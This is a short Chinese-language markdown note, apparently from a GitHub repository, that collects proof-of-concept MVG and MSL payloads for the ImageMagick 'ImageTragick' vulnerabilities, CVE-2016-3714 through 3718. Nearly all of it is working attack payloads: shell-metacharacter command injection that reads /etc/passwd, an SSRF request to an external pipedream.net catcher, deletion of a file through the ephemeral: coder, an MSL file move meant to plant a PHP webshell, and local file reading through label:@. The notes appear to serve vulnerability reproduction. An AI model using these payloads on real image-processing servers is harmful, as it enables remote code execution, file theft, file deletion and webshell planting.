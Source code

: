 ## 魔图漏洞
**CVE-2016-3714**
（The (1) EPHEMERAL, (2) HTTPS, (3) MVG, (4) MSL, (5) TEXT, (6) SHOW, (7) WIN, and (8) PLT coders in ImageMagick before 6.9.3-10 and 7.x before 7.0.1-1 allow remote attackers to execute arbitrary code via shell metacharacters in a crafted image, aka "ImageTragick."）

参考：
- https://github.com/ImageTragick/PoCs
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/vulhub/vulhub/blob/master/imagemagick/imagetragick/README.zh-cn.md

poc:
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`cat /etc/passwd > /tmp/success`'
pop graphic-context
```


**CVE-2016-3718**
poc.jpg
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://enav06y2ix9ic.x.pipedream.net)'
pop graphic-context
```

**CVE-2016-3715**
poc.jpg
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'ephemeral:/tmp/success'
popgraphic-context
```

下面这2个，3716没有复现成功，3717没有回显，就没有复现了

**CVE-2016-3716**
利用ImageMagick支持的msl协议，来进行文件的读取和写入。利用这个漏洞，可以将任意文件写为任意文件，比如将图片写为一个.php后缀的webshell。特别说明的是，msl协议是读取一个msl格式的xml文件，并根据其内容执行一些操作：

file_move.mvg
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'msl:/tmp/msl.txt'
popgraphic-context
```
/tmp/msl.txt
```
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="/tmp/image.gif" />
<write filename="/var/www/shell.php" />
</image>
```

**CVE-2016-3717**
可以造成本地文件读取漏洞
poc.jpg
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/hosts'
pop graphic-context
```